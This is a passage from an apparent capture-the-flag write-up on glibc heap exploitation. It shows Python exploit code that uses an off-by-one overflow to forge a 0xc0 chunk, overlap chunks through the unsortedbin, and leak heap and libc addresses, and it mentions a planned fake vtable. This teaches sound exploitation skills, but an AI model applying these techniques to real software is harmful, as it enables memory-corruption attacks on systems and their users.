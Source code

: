 We allocate a total of 5 chunks. The first 3 are used to leak GLibC and heap addresses. We would need an additional one to prevent consolidation with the top chunk, but here we add 2 more. The need for them will be clear later.

```python
chunk_00 = malloc()
chunk_01 = malloc() # We will reshape this one
chunk_02 = malloc() # Overlaps the fake chunk above
chunk_03 = malloc() # Spacer chunk
chunk_vt = malloc() # This will be our fake vtable.
```

Leveraging the off-by-one bug, we resize `chunk_01` from `0x60` to `0xc0` bytes (`0xc1`, as we need to account for the `prev_inuse` flag).

```python
# Create a fake 0xc0 bytes chunk
edit(chunk_00, b"\x00"*0x58 + p8(0xc1))
```

After the above operations, the heap will look like in the following picture:

![Image.png]({{ '/' | absolute_url }}assets/images/one-byte/0_0-02.png)

Now we free `chunk_01`, to get a `0xc0` chunk in the unsortedbin.

```python
# Add a 0xc0 chunk in unsortedbin
free(chunk_01)
```

Note that `chunk_02` is still accessible:

![Image.png]({{ '/' | absolute_url }}assets/images/one-byte/0_0-03.png)

Allocating a new `0x60` bytes chunk, causes `chunk_01` to be sorted in the `0xc0` smallbin and, since no exact fit exists anywhere, it is also remaindered. The bottom half (a `0x60` bytes chunk) is linked in the unsortedbin list, while the top half is returned to the user. As per following snippet, we store its index in `chunk_04`.

```python
# Cause a 0x60 reminder to be created, this reminder will overlap chunk_02
chunk_04 = malloc()
```

The heap configuration we obtain, as you can see below, allows us to read from `chunk_02` the unsortedbin list pointers to the `main_arena`:

![Image.png]({{ '/' | absolute_url }}assets/images/one-byte/0_0-04.png)

The following snipped shows how we can get the base address of GLibC.

```python
# Leak the unsortedbin head address from reminter chunk's fd pointer
leak = read(chunk_02)
unsortedbin = u64(leak[:8])
print(f"Leaked unsortedbin bk address: 0x{unsortedbin:02x}")
# The unsortedbin head starts 0x58 bytes into the main arena
libc.address = unsortedbin - 0x58 - libc.sym.main_arena
print(f"Leaked libc adress:            0x{libc.address:02x}")
```
